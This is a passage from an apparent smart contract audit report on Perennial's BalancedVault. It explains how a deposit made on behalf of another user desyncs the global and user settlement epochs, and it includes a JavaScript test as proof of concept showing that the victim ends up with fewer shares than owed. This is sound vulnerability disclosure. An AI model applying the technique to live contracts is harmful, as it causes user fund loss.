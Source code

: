 It's important to understand that the initial deposit will still be processed in epoch `3` in the global settlement flywheel, it's just being pushed ahead in the user settlement flywheel.

Thereby the global settlement flywheel and user settlement flywheel are out of sync now.

The total supply will be increased by an amount calculated based on the epoch `3` context:
https://github.com/sherlock-audit/2023-05-perennial/blob/main/perennial-mono/packages/perennial-vaults/contracts/balanced/BalancedVault.sol#L379

The user balance will be increased by an amount calculated based on the epoch `4` context:
https://github.com/sherlock-audit/2023-05-perennial/blob/main/perennial-mono/packages/perennial-vaults/contracts/balanced/BalancedVault.sol#L407

An example for a loss of funds that can occur as a result of this issue is when the PnL from epoch `3` to epoch `4` is positive. Thereby the user1 will get less shares than he is entitled to.

Similarly it is possible to push pending redemptions ahead, thereby the `_totalUnclaimed` amount would be increased by an amount that is different from the amount that `_unclaimed[account]` is increased by.

Coming back to the case with the pending deposit, I wrote a test that you can add to `BalancedVaultMulti.test.ts`:
```javascript
it('pending deposit pushed by 1 epoch causing shares difference', async () => {
      const smallDeposit = utils.parseEther('1000')
      const smallestDeposit = utils.parseEther('0.000001')

      await updateOracleEth() // epoch now stale
      // make a pending deposit
      await vault.connect(user).deposit(smallDeposit, user.address)
      await updateOracleBtc()
      await vault.sync()

      await updateOracleEth() // epoch now stale
      /* 
      user2 deposits for user1, thereby pushing the pending deposit ahead and causing the 
      global settlement flywheel and user settlement flywheel to get out of sync
      */
      await vault.connect(user2).deposit(smallestDeposit, user.address)
      await updateOracleBtc()
      await vault.sync()

      await updateOracle()
      // pending deposit for user1 is now processed in the user settlement flywheel
      await vault.syncAccount(user.address)

      const totalSupply = await vault.totalSupply()
      const balanceUser1 = await vault.balanceOf(user.address)
      const balanceUser2 = await vault.balanceOf(user2.address)

      /*
      totalSupply is bigger than the amount of shares of both users together
      this is because user1 loses out on some shares that he is entitled to
      -> loss of funds
      */
      console.log(totalSupply);
      console.log(balanceUser1.add(balanceUser2));

})
```

